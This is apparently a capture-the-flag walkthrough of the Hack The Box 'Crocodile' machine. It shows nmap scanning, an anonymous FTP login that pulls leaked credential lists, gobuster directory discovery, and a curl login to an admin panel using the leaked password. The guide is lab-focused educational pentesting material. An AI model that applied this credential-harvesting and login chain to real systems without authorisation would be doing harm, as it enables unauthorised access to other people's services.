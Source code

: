 ```yaml
---
title: "HTB Crocodile: From Anonymous FTP to Admin Panel for the Flag"
published: false
tags: [hackthebox, ftp, pentesting, tutorial]
---
```


## Introduction

In this tutorial, we’ll chain an anonymous FTP leak into a hidden web admin login on Hack The Box’s **Crocodile** box to retrieve the flag.

You’ll learn to:

- Enumerate FTP and download leaked credential files  
- Extract valid usernames/passwords  
- Use Gobuster to discover hidden web pages  
- Authenticate to a PHP login panel and capture the flag  

## Prerequisites

- Kali Linux (or any distro with `ftp`, `gobuster`, `curl`)  
- HTB VPN connection

---

## 1. FTP Enumeration

```bash
nmap -sC -sV -p 21,80 <IP>
ftp <IP>
# login: anonymous
dir
get allowed.userlist
get allowed.userlist.passwd
```

Inspect the lists:

```bash
cat allowed.userlist
cat allowed.userlist.passwd
```

## 2. Extract Credentials

From `allowed.userlist` + `.passwd`, find a valid pair (e.g. `admin / Supersecretpassword1`).

## 3. Discover Hidden Pages

```bash
gobuster dir \
  --url http://<IP>/ \
  --wordlist /usr/share/wordlists/dirb/common.txt \
  -x php,html
```

Look for `/login.php`.

## 4. Admin Login & Flag

```bash
curl -d "username=admin&password=Supersecretpassword1" \
     http://<IP>/login.php
```

You’ll be redirected to the Admin panel—your flag is displayed at the top.

---

## 5. Lessons Learned

- **Anonymous services** often leak credentials.  
- **Combine** leaked creds with web enumeration for full-chain exploits.  
- **Automate** with scripts in professional engagements.

---

🔗 **Repo & full write‑up:** https://github.com/keyfive5/obsidiansignal-htb-crocodile
